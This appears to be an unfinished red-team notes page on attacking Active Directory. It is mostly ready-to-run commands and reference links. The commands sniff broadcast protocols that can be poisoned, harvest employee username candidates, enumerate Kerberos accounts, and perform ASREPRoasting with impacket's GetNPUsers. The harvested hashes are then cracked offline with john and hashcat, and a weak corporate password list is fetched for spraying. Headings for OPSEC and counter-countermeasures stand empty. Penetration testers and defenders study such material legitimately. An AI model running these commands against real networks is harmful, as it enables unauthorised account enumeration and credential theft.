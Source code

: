 
# Discovery: Active Directory

## Overview

MITRE ATT&CK mapping: N/A

## Procedures

### Reference

In-depth domain recon:

```
https://book.hacktricks.xyz/windows-hardening/ntlm
https://book.hacktricks.xyz/windows/active-directory-methodology
https://speakerdeck.com/ropnop/fun-with-ldap-kerberos-and-msrpc-in-ad-environments?slide=96
```

Domain recon (from Windows box):

```
https://adsecurity.org/?p=2535
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
https://pentestlab.blog/2018/05/28/situational-awareness/
```

Kerberos attacks:

```
https://www.tarlogic.com/blog/how-kerberos-works/
```

### Discovering AD name

Passively listen for DHCP broadcasts:

    tcpdump -i eth0 port 67 or port 68 -e -X

Broadcasting DHCP/DHCPv6 request:

    nmap --script broadcast-dhcp-discover -d
    nmap -6 --script broadcast-dhcp6-discover

Other techniques:

```
https://blog.quickbreach.io/blog/finding-the-domain-controllers/
# externally:
https://www.komodosec.com/post/github-the-red-teamer-s-cheat-sheet
```

### Sniffing for abusable protocols 

Broadcast/multicast protocols that could be abused (via poisoning/spoofing) by the attacker to impersonate as other nodes in the network:

```
NBT (NetBIOS over TCP/IP)
LLMNR
mDNS
DHCPv6
SSDP
```

NBT (NetBIOS over TCP/IP):

    tcpdump -i eth0 udp port 137

LLMNR:

    socat -u UDP4-RECV:5355,ip-add-membership=224.0.0.252:eth0 /dev/null &
    tcpdump -i eth0 udp port 5355

mDNS:

    socat -u UDP4-RECV:5353,ip-add-membership=224.0.0.251:eth0 /dev/null &
    tcpdump -i eth0 udp port 5353

DHCPv6:

    TODO

SSDP:

    socat -u UDP4-RECV:1900,ip-add-membership=239.255.255.250:eth0 /dev/null &
    tcpdump -i eth0 udp port 1900

### Exploring AD: unauthenticated user

Collecting valid usernames:

```
People (username candidates):
source ~/.venv/CrossLinked/bin/activate
# Bob and Bob Company
crosslinked -f {f}.{last}@domain.com 'BoB+%26+Bob Company'
alternatively:
https://github.com/insidetrust/statistically-likely-usernames
wget https://gist.githubusercontent.com/superkojiman/11076951/raw/74f3de7740acb197ecfa8340d07d3926a95e5d46/namemash.py
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/Names/names.txt

# query:
nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='ad.domain',userdb=/home/tester/names.txt <DC-IP>
```

ASREPRoasting:

*The ASREPRoast attack looks for users without Kerberos pre-authentication required attribute (DONT_REQ_PREAUTH). Anyone can send an AS_REQ request to the DC on behalf of any of those users, and receive an AS_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password.*

```
Original work: https://github.com/HarmJ0y/ASREPRoast
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/3c6713e309cae871d685fa443d3e21b7026a2155/examples/GetNPUsers.py
python3 GetNPUsers.py -usersfile validNames.txt -dc-ip <DC-IP> -format hashcat -outputfile hashes.asreproast ad.domain/ | tee asreproast.out
if DONT_REQ_PREAUTH:
cat asreproast.out | grep -v "doesn't have"
then offline cracking:
john --wordlist=passwords_kerb.txt hashes.asreproast
hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt 
```

Password spraying:

```
wget https://raw.githubusercontent.com/insidetrust/statistically-likely-usernames/master/weak-corporate-passwords/english-basic.txt
```

### Exploring AD: authenticated (unprivileged) user

### Exploring AD: Domain Admin

## OPSEC considerations

## Counter-countermeasures
